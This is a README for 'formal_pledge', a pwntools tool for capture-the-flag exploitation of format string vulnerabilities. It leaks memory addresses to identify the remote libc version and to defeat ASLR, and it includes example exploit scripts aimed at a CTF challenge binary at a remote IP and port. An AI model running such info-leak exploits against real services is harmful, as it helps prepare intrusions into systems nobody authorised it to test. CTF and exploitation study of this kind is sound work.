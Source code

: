 # formal_pledge

Have a format string vulnerability? You're in the right place!
+ Get the remote LIBC version
+ Quickly get the perfect string to leak all relevant regions! (local only, ASLR off)

To get the LIBC version, **formal_pledge** looks for the `__libc_start_main` return from main, and checks its address against an offset database it builds using [libc-database](https://github.com/niklasb/libc-database) and pwntools [libc_start_main_return](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libc_start_main_return).

# Install
```bash
git clone https://github.com/k4lizen/formal_pledge.git
cd formal_pledge
pip install -e .
```
Then edit the `formal_pledge/libc_database_location.py` file to set the [libc-database](https://github.com/niklasb/libc-database) database location.

# Usage
The idea is to first find the remote LIBC version with `.libcv`, then patch the binary using something like [pwninit](https://github.com/io12/pwninit/), and then leak the binary/stack(/libc) offsets with `.leak` since ASLR needs to be turned off for it.
## Getting LIBC Remote Version
```python
import formal_pledge
# ...
formal_pledge.libcv(exec_function, binary_elf)
```
`exec_function` is a function which takes the payload as the only parameter. Returns the printed format string and the process object (see example). `formal_pledge` will take care of closing the process.

If a `process()` is supplied, exact offset will be calculated with [pwntools elf.libs()](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libs), otherwise if the object is `remote()` only the last 12 bits of the address will be compared.

On the first run, the `offsets.txt` file may need to be populated, this step is skipped in subsequent runs (unless new libc files are added to the database).
## Leaking Binary, Stack and LIBC
```python
import formal_pledge
# ...
formal_pledge.leak(exec_function, binary_elf)
```
`exec_function` is a function which takes the payload as the only parameter. Returns the printed format string and the process object (see example). `formal_pledge` will take care of closing the process. The process needs to be local and have ASLR turned off.

To check which address belongs to which region (if any), some heuristic about usual binary and stack placement is used (located in `formal_pledge/leak_regions.py`), while libc is targeted using [pwntools elf.libs()](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libs).

# Examples
Can be seen/run in the `example/` directory.
## Leaking LIBC Remote Version
```python
from pwn import *
import formal_pledge

def start():
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    return process([exe])

def send_payload(payload):
    p = start()
    p.recvuntil(b'>> ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    return resp, p

# binary from https://ctf.nullcon.net/challenges
exe = './junior_formatter'
elff = context.binary = ELF(exe, checksec=False)

# python exploit.py REMOTE 52.59.124.14 5031
# python exploit.py 
formal_pledge.libcv(send_payload, elff)
```
To run:
```bash
cd example
chmod +x junior_formatter
python exploit_libc.py
```
## InfoLeaking Binary, Stack and LIBC
```python
from pwn import *
import formal_pledge

def send_payload(payload):
    p = process([exe], aslr=False)
    p.recvuntil(b'>> ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    return resp, p

# binary from https://ctf.nullcon.net/challenges
exe = './junior_formatter'
elff = context.binary = ELF(exe, checksec=False)

# python exploit.py 
formal_pledge.leak(send_payload, elff)
```
To run:
```bash
cd example
chmod +x junior_formatter
python exploit_leak.py
```
